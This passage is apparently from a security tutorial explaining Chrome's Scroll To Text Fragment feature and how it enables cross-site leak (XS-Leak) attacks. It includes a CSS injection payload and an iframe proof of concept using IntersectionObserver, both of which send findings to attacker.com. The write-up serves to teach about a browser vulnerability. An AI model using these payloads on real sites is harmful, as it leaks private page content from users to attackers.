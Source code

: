 ### STTF (Scroll To Text Fragment)

STTF (Scroll To Text Fragment) is also Chrome's experimental feature like portal. This provides functionality to directly link to enable immediate movement to specific text within pages.

Using `#:~:text=` syntax to include text and browsers highlight this and bring it to viewport.

```
https://example.com#:~:text=specific%20phrase
```

When accessing pages like this, browsers try to find `specific phrase` text on pages and automatically scroll and highlight. This performs the same role as functions to search specific text on pages using `ctrl+f` or `cmd+f` currently in browsers.

Using STTF, developers don't need to separately implement functions to search specific text within pages, and this has advantages of improving user experience in browsers. This belongs to one of the functions many users are conveniently using currently. Although it's a convenient function, there are problems where XSLeak vulnerabilities can manifest in this function. Attackers can exploit this to attempt indirect information leakage.

```css
:target::before {
  content: url(http://attacker.com/?confirmed_existence_of_Administrator_username);
}
```

Attackers initially inject code like above through CSS Injection, then try to search specific text (admin, administrator, secret_data, etc.) on pages using STTF functionality. If text to search exists on pages, requests to confirm text detection success are sent to attacker servers. Attackers can check what content exists on target pages by checking logs on their servers.

Besides directly conducting XSLeak through CSS injection, XSLeak vulnerabilities can be manifested by linking `IntersectionObserver` API and STTF. Using this API, you can detect whether scrolling occurred to STTF search target text. Using this, by setting `IntersectionObserver` API inside frames like iframe and checking scroll occurrence on target pages, XSLeak attacks can be performed by sending to attackers when scrolling occurs. This code is attack code in a method modified by referring to the below.

[Live DOM Viewer](https://software.hixie.ch/utilities/js/live-dom-viewer/?saved=11657)

```html
<p style="margin-bottom: 150vh">spacer</p>
<p>Target text to search</p>
<iframe
  src="data:text/html,
<script>
const observer = new IntersectionObserver(entries => {
    if (entries[0].isIntersecting) {
        fetch('https://attacker.com/leak?found=target_text');
    } else {
        fetch('https://attacker.com/leak?not_found=target_text');
    }
    observer.unobserve(document.body);
});
observer.observe(document.body);
</script>"
></iframe>
<p style="margin-bottom: 150vh">spacer</p>

<script>
  location.hash = "#:~:text=Target text";
</script>
```
